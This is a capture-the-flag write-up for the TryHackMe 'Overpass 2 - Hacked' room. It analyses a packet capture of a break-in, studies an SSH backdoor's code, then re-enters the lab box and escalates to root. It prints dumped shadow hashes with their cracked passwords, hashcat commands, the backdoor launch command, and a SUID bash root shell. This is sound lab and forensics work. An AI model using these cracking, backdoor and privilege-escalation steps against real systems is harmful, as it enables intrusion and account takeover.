




# [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)

## Task 1: Forensics - Analyse the PCAP

> What was the URL of the page they used to upload a reverse shell?

Since we're looking for a URL, we should first use the filter `http` to get HTTP packets. Since the question is looking for an "upload", we should look at "POST" and "PUT" requests. The only "POST" request we have is to `/development/upload.php` so the answer is `/development/`.



> What payload did the attacker use to gain access?

Following the `POST` request, we can see the request body with some PHP code, which is our payload.



> What password did the attacker use to privesc?

Since the `POST` request uploading the payload is packet 14 and the TCP stream it belongs to (`tcp.stream eq 1`, packets 11-23) didn't include the password we're looking for, we should look at TCP packets after packet 23 or TCP streams after 1. After a bit of trial and error, we can find communication with out reverse shell in TCP stream 3 (`tcp.stream eq 3`).



In the above shell, we can see the attacker performing privilege escalation with `su james` and the password `whenevernoteartinstant`.

> How did the attacker establish persistence?

Further down in the same TCP stream 3, we can see the attacker downloading and using an SSH backdoor from `https://github.com/NinjaJc01/ssh-backdoor`



> Using the fasttrack wordlist, how many of the system passwords were crackable?

Earlier in TCP stream 3, the attacker dumped some password hashes with `sudo cat /etc/shadow`. In that dump, there are 5 hashes of interest to us:

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

Password hashes in `/etc/shadow` that start with `$6$` are sha512crypt hashes and the hashcat mode for that is `1800`. The question asks for the "fasttrack" wordlist which you can get [here](https://github.com/trustedsec/social-engineer-toolkit/blob/master/src/fasttrack/wordlist.txt). To crack the hashes, run:

```sh
hashcat -m 1800 --username hashes fasttrack.txt
```

As a result, we have **4** hashes cracked

```
bee:secret12
paradox:secuirty3
muirland:1qaz2wsx
szymex:abcd123
```

## Task 2: Research - Analyse the code

To get the backdoor, clone it from `https://github.com/NinjaJc01/ssh-backdoor`.

> What's the default hash for the backdoor?

In `main.go`, line 19, we can find the default password hash: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

> What's the hardcoded salt for the backdoor?

On line 108, we see a call to `verifyPass()`, whose 2nd argument is the salt: `1c362db832f3f864c8c2fe05f2002a05`

> What was the hash that the attacker used? - go back to the PCAP for this!

Note that in the backdoor, the hash is provided with the `-a` flag. Looking back at TCP stream 3 in the PCAP, we can see the attack provided their own hash

```sh
$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

> Crack the hash using rockyou and a cracking tool of your choice. What's the password?

We can see in the function `hashPassword()` of the backdoor that SHA512 is used, and the hash is `SHA512(password + hash)`, so the hashcat mode to use is `1710`. To crack the hash, run:

```sh
hashcat -m 1710 hash:salt path/to/rockyou
```

The resulting password is "november16".

## Task 3: Attack - Get back in!

If you look back at the PCAP, TCP stream 3, you'll see at the bottom the line "SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222" telling us that the backdoor is listening on port 2222, which is the default port for the backdoor used by the attacker. Knowing the password, we can just use the same backdoor to get in.

```sh
$ ssh MACHINE_IP -p 2222
```

Using the password "november16", we get an SSH shell as `james`.

One common thing to look for is SUID binaries. To find them, run:

```sh
find / -perm /4000 2>/dev/null
```

This returns, among other binaries, `/home/james/.suid_bash`. Would have been quicker to run `ls -la` in `/home/james`, but oh well. To run bash and keep the escalated shell from the SUID bit, we run it with the `-p` flag.

```sh
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
```

And with that, we have rooted the machine!
